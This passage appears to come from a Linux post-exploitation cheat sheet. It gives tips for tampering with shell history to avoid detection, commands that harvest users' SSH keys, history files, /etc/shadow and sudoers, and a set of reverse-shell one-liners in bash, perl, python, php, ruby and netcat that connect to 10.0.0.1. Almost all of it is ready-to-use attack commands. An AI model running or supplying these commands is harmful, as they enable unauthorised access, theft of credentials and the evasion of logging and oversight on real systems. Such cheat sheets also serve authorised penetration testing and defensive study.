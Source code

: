 Note that you're probably better off modifying or temporary disabling rather than deleting history files, it leaves a lot less traces and is less suspect.

In some cases HISTFILE and HISTFILESIZE are made read-only; get around this by explicitly clearing history (history -c) or by kill -9 $$'ing the shell. Sometimes the shell can be configured to run 'history -w' after every command; get around this by overriding 'history' with a no-op shell function. None of this will help if the shell is configured to log everything to syslog, however.
Obtain users' information
ls -alh /home/*/	
ls -alh /home/*/.ssh/
cat /home/*/.ssh/authorized_keys
cat /home/*/.ssh/known_hosts
cat /home/*/.*hist* # you can learn a lot from this
find /home/*/.vnc /home/*/.subversion -type f 
grep ^ssh /home/*/.*hist*
grep ^telnet `/home/*/.*hist*
grep ^mysql /home/*/.*hist*
cat /home/*/.viminfo
sudo -l # if sudoers is not. readable, this sometimes works per user
crontab -l
cat /home/*/.mysql_history

Escalating
Looking for possible opened paths
ls -alh /root/
sudo -l
cat /etc/sudoers
cat /etc/shadow
cat /etc/master.passwd # OpenBSD
cat /var/spool/cron/crontabs/* | cat /var/spool/cron/*
lsof -nPi
ls /home/*/.ssh/*

Maintaining control
Reverse Shell
Starting list sourced from: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 (No /dev/tcp on older Debians, but use nc, socat, TCL, awk or any interpreter like Python, and so on.).
perl -e 'use Socket; $i="10.0.0.1"; $p=1234; socket(S,PF_INET, SOCK_STREAM, getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){ open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};'
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.0.0.1",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i; exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' nc -e /bin/sh 10.0.0.1 1234 # note need -l on some versions, and many does NOT support -e anymore
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
xterm -display 10.0.0.1:1se	
Listener- Xnest :1
Add permission to connect- xhost +victimIP
ssh -NR 3333:localhost:22 user@yourhost
nc -e /bin/sh 10.0.0.1 1234
